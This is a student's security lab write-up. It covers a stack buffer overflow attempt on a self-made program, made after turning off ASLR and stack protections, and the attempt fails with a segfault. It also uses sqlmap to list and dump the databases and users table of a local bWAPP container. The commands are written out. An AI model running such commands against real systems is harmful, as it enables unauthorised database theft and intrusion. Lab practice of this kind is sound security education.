 # Lab #1,22110023, Pham Nam Hao,  INSE340380E 03FIE
# Task 1: Software buffer overflow attack
 
**Make a vulnerable C program**
```
!(https://github.com/user-attachments/assets/c6601ab9-f2f3-4f29-aff3-ca0a5eb8ed1b)
```
**Make a shell C program**
```
!(https://github.com/user-attachments/assets/4de6ebb1-4719-4dde-b3ae-d8334302721f)
```
**Answer 1**:I choose Code Injection route.
- Compile both C programs and shellcode to executable code.
  + Turn off OS's address space layout randomization
    '''
    sudo sysctl -w kernel.randomize_va_space=0
    '''
  + Compile program with options to defeat stack protecting mechanism and code execution on stack:
    '''
    ![Screenshot 2024-10-23 100200](https://github.com/user-attachments/assets/7c5a6f2c-da29-442a-971c-91c4ac7f174c)
    '''
  + Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:
    '''
    $> sudo ln -sf /bin/zsh /bin/sh
    '''
- Conducting the attack on labbof.out
  + Load vulnerable file into gdb
    '''
    gdb labbof.out -q
    '''
    ![image](https://github.com/user-attachments/assets/f1c372e7-ca85-4e5e-8f15-923c6f87b98e)
    '''
  + View assembly code to find return address and set a break point after strcpy function to overflow the buffer with python script
    '''
    (gdb) disas main
    (gdb) break *0x000011c2
    '''
    ![image](https://github.com/user-attachments/assets/1f27d9ed-e058-43cc-9437-06559b51d350)
    '''
  + Load shell C program into gdb and find esp address
    '''
    gdb atk.out -q
 
    (gdb) disas main 
    '''
    ![image](https://github.com/user-attachments/assets/83b461e5-e392-469e-afd6-a1b71ae0202d)
    '''

**Conclusion**: 
I tried to replace the esp address of shell program in a buffer padding but there's only segmentaion fault error
'''
./labbof.out $(python3 -c "print('A'*16 + '\x8d\x11\x00\x00' +'\xff\xff\xff\xff')")
'''
![image](https://github.com/user-attachments/assets/f7cb99b6-cf6c-42b4-9f17-9805d63d6ee1)
'''

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Set Up** 
- Download and set up bWapp, sqlmap
  '''
  docker pull raesene/bwapp

  docker run --rm -it -p 8025:80 raesene/bwapp
  '''
  ![image](https://github.com/user-attachments/assets/7bdc60ea-4ea3-4b4e-9088-07a7523adc3a)
  ![image](https://github.com/user-attachments/assets/cc2f8644-6510-4cc4-8414-9c6c114f0569)
  
  ![image](https://github.com/user-attachments/assets/f2c0a86c-0b57-4c6f-8467-d5a514608fe9)
  '''
  
- Local host set up successful
  '''
  ![image](https://github.com/user-attachments/assets/83e01643-e670-4a7e-8396-3bf1c5862fe4)
  '''

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

- Find the cookies by inspecting
  '''
  ![image](https://github.com/user-attachments/assets/e82eeae0-4507-4745-bb3b-4d7a69f04202)
  '''
- Get information about databases
  '''
  >python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie "PHPSESSID=buvohn13p4tdh6sbh7lea61686; security_level=0"
  '''
  ![image](https://github.com/user-attachments/assets/b0ea698e-9cc2-43e1-bb4e-06558a603506)
  '''

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Get tables
  '''
  python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie "PHPSESSID=buvohn13p4tdh6sbh7lea61686; security_level=0"
  '''
  ![image](https://github.com/user-attachments/assets/2d14a455-622c-4bcd-9441-806acad15879)
  '''

- Get users information
  '''
   python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie "PHPSESSID=buvohn13p4tdh6sbh7lea61686; security_level=0"
  '''
  ![image](https://github.com/user-attachments/assets/ed172eb2-3fd3-4b09-85d7-f277ab6c8eb9)
  '''
  
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

